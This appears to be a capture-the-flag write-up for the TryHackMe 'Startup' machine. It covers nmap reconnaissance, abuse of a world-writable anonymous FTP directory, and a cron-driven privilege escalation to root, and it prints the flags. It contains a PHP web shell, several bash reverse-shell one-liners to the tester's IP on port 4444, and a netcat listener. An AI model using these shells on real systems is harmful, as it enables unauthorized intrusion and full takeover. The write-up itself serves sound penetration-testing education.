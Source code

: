 # INIT
This is an easy `linux` machine. 
I start by doing an `nmap` scan.
```
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ cat nmap/startup.nmap 
# Nmap 7.95 scan initiated Sat Aug 23 20:17:27 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oA nmap/startup 10.201.22.206
Nmap scan report for 10.201.22.206
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Aug 24 00:11 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.2.0.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 23 20:17:59 2025 -- 1 IP address (1 host up) scanned in 31.35 seconds
```

Here we have Anonymous ftp access. However the interesting part is the `/ftp` director has `rwx` permission for everyone! So that means, if we can find a way to execute files from this directory, we can get a reverse shell!

Doing a simple `gobuster` search, I find that there is `/files` endpoint that shows all the files/directories of the ftp root folder in the browser. So, this means we can "execute" or "access" a file via browser. 
So, let's put a `php` file and get a reverse shell!
``` 
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ cat shell.php        
<?php system($_GET['cmd']); ?>
```
The script executes the "command" it gets via the `cmd` variable. So, we open the below url in our browser, effectively executing the shell command and getting a reverse shell!
```
http://10.201.22.206/files/ftp/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.2.0.159%2F4444%200%3E%261%27
```

Remember to first open you local netcat connection: `rlwrap nc -nvlp 4444`.
# User flag
Now that I have the shell, I got to /tmp directory and run `linpeas.sh`. This gives me some interesting information such as the "odd" files found in root.
```
╔══════════╣ Unexpected in root
/vagrant
/recipe.txt
/vmlinuz.old
/vmlinuz
/incidents
/initrd.img
/initrd.img.old
```
One of these if `recipe.txt` which gives us our first flag! i.e. secret ingridient 



Beautify the shell a bit:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`


# Privilege Escalation
There seems some files in the home folder of `lennie`.
In the `scripts` folder, we see `phanner.sh`:
```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
It is essentially executing `/etc/print.sh` script. Checking this files permissions, we see it is owned by `lennie` and so we can edit it! Welp, in that case, we can simply ask this sh to give us a reverse shell and as the caller `planner.sh` is owned by root and hence run by root, we can get a root shell! Nice.
```bash
bash -c "bash -i >& /dev/tcp/10.2.0.159/4444 0>&1"
echo 'Done!'
```

I open `nc` on my local machine (`rlwrap nc -nvlp 4444`) and wait for the root to execute the script as part of its `cron` job.
We get the root shell and hence the flag!
```              
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.2.0.159] from (UNKNOWN) [10.201.94.216] 38774
bash: cannot set terminal process group (23921): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# 

root@startup:~# whoami
whoami
root
root@startup:~# ls
ls
root.txt
root@startup:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 12  2020 .
drwxr-xr-x 25 root root 4096 Aug 24 01:56 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12  2020 root.txt
drwx------  2 root root 4096 Nov 12  2020 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
root@startup:~# 
```


``